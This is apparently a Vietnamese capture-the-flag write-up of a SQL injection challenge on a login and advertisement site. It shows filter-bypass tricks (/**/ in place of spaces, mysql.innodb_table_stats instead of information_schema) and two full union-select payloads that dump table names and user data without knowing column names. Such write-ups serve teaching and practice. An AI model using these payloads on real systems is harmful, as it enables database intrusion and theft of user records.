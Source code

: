 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/ebe19333-e331-4f5e-96fe-3690980d6bf8)

Challenge cho ta form login và register. Thử register sau đó login xem có gì hay ko.

Sau khi login thì nó có 2 path là logout, login và apply to advertise.Mình thử vào apply xem.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/2243ad05-03a7-47dd-ac53-5dd75000064f)

Nó cho ta một form để điền để apply gồm `name advertisement` và content của cái advertise ta sẽ điền.

Mình thử test với `1'`.Thì xuất hiện lỗi sqli

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/bfa7d958-da1d-4acb-9057-7d0e8874b10f)

----->Query: `select ... from ... where $id = $input limit 0,1`

Sau đó thì thử với order by thì đã bị block rồi

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4b41ad23-f64f-48f9-bf67-09fdc13d829f)

Fuzz một hồi thì đã bị block `space,or # --+`.Mình có thử /**/ thì thành công.Fuzz thì có 22 cột

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e05abbfa-6227-4101-89e6-e29f295a5846)

Bấm cái nút cuối cùng bên phải thì

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/2a0e1c48-fc64-431a-adc9-f17ec058c2fe)

Vậy là lỗi ở cột 2 và 3.Tiếp tục tìm tên database

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f82b3207-db3d-45bb-9338-22c4f8f50903)

Vậy đã có tên database tiếp tục tìm table_name().Nhưng sau khi thử với `information_schema.schemata` thì bị block.Sau khi research thì có thể dùng `mysql.innodb_table_stats` để bypass

Payload:
`1'/**/union/**/select/**/1,database(),group_concat(table_name),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/database_name="web1"'`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/903d1b95-836d-40e1-86cd-25365767fc90)

Có tablename rồi.Flag chắc chỉ ở user thôi.

Lúc này thì khá bị, tại không biết làm thế nào có thể lấy được data từ column nên có đọc ở đây

https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/

Payload:
`1'union/**/select/**/1,database(),(select/**/group_concat(b)/**/from/**/(select/**/1,2/**/as/**/a,3/**/as/**/b/**/union/**/select/**/*/**/from/**/user)a),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f4e46b9e-cdf3-45e4-9b9c-9cafaa22ff3a)




